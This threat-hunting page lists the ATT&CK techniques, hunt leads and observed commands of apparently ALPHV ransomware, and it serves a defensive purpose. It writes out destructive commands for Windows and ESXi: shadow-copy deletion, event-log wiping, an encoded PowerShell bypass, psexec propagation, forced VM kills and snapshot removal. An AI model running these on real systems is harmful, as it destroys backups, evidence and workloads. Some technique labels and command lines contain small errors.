 ```yaml
---
cover: ../../.gitbook/assets/cat2.png
coverY: 0
---
```


# TTPs

## TTPs

* T1003.004 - OS Credential Dumping: LSA Secrets
* T1005 - Data from Local System
* T1007 - System Service Discovery&#x20;
* T1021.001 - Remote Desktop Protocol (RDP)
* T1021.002 - SMB/Windows Admin Shares&#x20;
* T1027 - Obfuscated Files or Information&#x20;
* T1027.002 - Obfuscated Files or Information: Software Packing&#x20;
* T1047 - Windows Management Instrumentation
* T1049 - System Network Connections Discovery
* T1053.003 - Command and Scripting Interpreter: Windows Command Shell
* T1057 - Process Discovery&#x20;
* T1059 - Command and Scripting Interpreter&#x20;
* T1078 - Valid Accounts&#x20;
* T1082 - System Information Discovery&#x20;
* T1083 - File and Directory Discovery&#x20;
* T1090.003 - Multi-hop Proxy
* T1105 - Ingress Tool Transfer
* T1112 - Modify Registry
* T1129 - Shared Modules
* T1140 - Deobfuscate/Decode Files or Information&#x20;
* T1202 - Indirect Command Execution&#x20;
* T1218.003 - Signed Binary Proxy Execution: CMSTP
* T1485 - Data Destruction&#x20;
* T1486 - Data Encrypted for Impact&#x20;
* T1489 - Service Stop&#x20;
* T1490 - Inhibit System Recovery
* T1498 - Network Denial of Service
* T1499 - Endpoint Denial of Service&#x20;
* T1531 - Account Access Removal&#x20;
* T1543.003 - Create or Modify System Process: Windows Service&#x20;
* T1550.002 - Use Alternate Authentication Material: Pass the Hash&#x20;
* T1552 - Unsecured Credentials&#x20;
* T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay
* T1560 - Archive Collected Data
* T1562.001 - Impar Defenses: Disable or Modify Tools
* T1567.002 - Exfiltration to Cloud Storage&#x20;
* T1569.002 - System Service: Service execution
* T1570 - Lateral Tool Transfer&#x20;

## Hunt Activity

* Suspicious SMB traffic
* 'vssadmin' shadow copy deletions
* Recovery mode edits or disables using 'bcedit.exe'
* Propagation via 'psexec'
* Use of anti-forensics tools like fileshredder
* Collection machine UUID via WMIC commands
* The universally unique identifier (UUID) is later used, together with the token, to identify the victim in a Tor website hosted by the malicious actors.
* Delete volume shadow copies.
* Increase the number of network requests that the server service can perform.
* Stop the IIS service using the iisreset.exe, a well-known tool used to handle IIS services.
* Execute arp command to display current ARP (Address Resolution Protocol) entries.
* Execute Fsutil to allow the use of both remote and local symlinks.
* Clear all event logs via wevutil.exe.

## Behaviour

### Windows

```
cmd /c wmic csproduct get UUID
vssadmin.exe delete shadows /all /quiet
powershell.exe -nop -exec bypass -EncodedCommand LgBcAHMAcAByAGUAYQBkAC4AYgBhAHQAIABtAGsAcwBoAGEAcgBlACAAUgBFAEEARAA=
icacls c:\windows\debug\app /grant "Authenticated Users":(OI)(CI)F /T
net share app)c:\windows\debug\app /grant:everyone,READ
fsutil behavior set SymlinkEvaluation R2L:1 
fsutil behavior set SymlinkEvaluation R2R:1
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v MaxMpxCt /d 65535 /t REG_DWORD /f
psexec.exe -accepteula \\<TARGET_HOST> -u <USERNAME> -p <PASSWORD> -s -d -f -c <ALPHV_EXECUTABLE> [FLAGS] [OPTIONS] --access-token <ACCESS_TOKEN> [SUBCOMMAND]
arp -a
%SYSTEM32%\DllHost.exe /Processid:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}
for /F \"tokens=*\" %1 in ('wevtutil.exe el') DO wevtutil.exe cl \"%1\""
/c \\DOMAIN.LOCAL \netlogon\locker.exe --access-token CODE
gpupdate /force
```

### Linux / VMware ESXi

```
esxcli --formatter=csv --format-param=fields=="WorldID,DisplayName" vm process list
awk -F "\"*,\"*" '{system("esxcli vm process kill --type=force --world-id="$1)}'
for i in `vim-cmd vmsvc/getallvms| awk '{print$1}'`;do vim-cmd vmsvc/snapshot.removeall $i & done 
```
